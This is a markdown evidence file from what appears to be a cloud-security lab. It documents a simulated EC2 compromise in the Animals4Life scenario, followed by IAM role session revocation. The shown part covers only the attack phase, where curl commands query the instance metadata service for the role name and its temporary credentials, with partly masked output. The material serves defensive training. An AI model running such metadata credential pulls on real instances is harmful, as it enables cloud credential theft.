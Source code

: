 # AWS Security Role Invalidation - Demonstration Evidence

> **📋 Complete documentation of the credential compromise attack simulation and incident response process**

This document contains all command outputs, screenshots, and evidence from the AWS IAM role session invalidation demonstration. All credential values have been sanitized for security while maintaining educational value.

---

## 🎯 Demonstration Overview

**Scenario**: Animals4Life organization discovers EC2 instance compromise with credential extraction  
**Objective**: Demonstrate session revocation technique to neutralize threat without service disruption  
**Timeline**: Complete attack simulation through incident response and service restoration

---

## 🔴 Phase 1: Metadata Extraction - Role Discovery and Credential Extraction

### Role Discovery

**Command Executed**:
```bash
sh-4.2$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
A4L-InstanceRole-TDHLFluqhnhA
```

**Visual Evidence**:

![Role Discovery](../evidence/screenshots/image.png)
*Screenshot showing successful extraction of IAM role name from EC2 instance metadata service*

### Credential Extraction

**Command Executed**:
```bash
sh-4.2$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/A4L-InstanceRole-TDHLFluqhnhA
{
"Code" : "Success",
"LastUpdated" : "2025-07-22T01:15:24Z",
"Type" : "AWS-HMAC",
"AccessKeyId" : "ASIA****************G3WA",
"SecretAccessKey" : "bMJW************************************k+je",
"Token" : "IQoJb3JpZ2luX2VjEMr//////////wEaCXVzLWVhc3QtMSJH[...SANITIZED_FOR_SECURITY...]A7A==",
"Expiration" : "2025-07-22T07:50:38Z"
}
```
